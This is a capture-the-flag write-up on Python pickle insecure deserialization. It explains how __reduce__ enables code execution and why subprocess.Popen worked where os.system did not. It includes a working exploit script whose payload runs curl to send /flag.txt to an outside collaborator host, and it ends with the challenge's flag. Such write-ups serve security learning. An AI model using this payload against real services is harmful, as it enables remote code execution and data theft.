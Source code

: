 `pickle.loads()` is used to unpickle (deserialize) the data and takes a variable containing byte stream as a valid argument.

It is vulnerable to pickle insecure deserialization.

To exploit this vulnerability, we will use `__reduce__` method. \
`__reduce__` allows you to define a custom way to reconstruct the object during deserialization. It can be used for execution of arbitrary code during deserialization.

I wasted so much time on payload making because i was using `os.system` but it didn't work at last `subprocess.Popen` worked.

> [!NOTE]  
> It won't work because `os.system` method uses respective shell of the Operating system that it is running on so for `os.system` to work during Deserialization we need to Serialize the payload on the machine that matches the target OS. \
> Here target is running Linux so Windows won’t work


python exploit code:

```python
import pickle
import base64
import os
import requests


class RCE:
    def __reduce__(self):
        import os
        import subprocess
        return (subprocess.Popen, (('curl','bwb2r04nf32cz2y75mho7eus4jaay8mx.oastify.com', '-d', '@/flag.txt'),0))

pickled = pickle.dumps(RCE())
x2 = base64.b64encode(pickled).decode()

r = requests.get(f"https://dsw3qg.wizer-ctf.com/profile?load_object={x2}",proxies={'http':'http://127.0.0.1:8080'})
print(r.text)
```

Request to collaborator:

![image](/images/md/9dc22cfa-ffd1-4156-a89c-11fdb5bfa81c.webp)


Payload:
```shell
https://dsw3qg.wizer-ctf.com/submit_flag/WIZER{'PICKL1NG_1S_DANGEROUS'}
```

<br>

-------------

<br>

made it to the top 10.

[![Aftab Sama - Top 10 CTF Challenge](/images/md/88af25f0-6f6d-4f88-9c97-0be8880d8d98.webp)](https://www.linkedin.com/in/aftab-sama/)


Happy Hacking
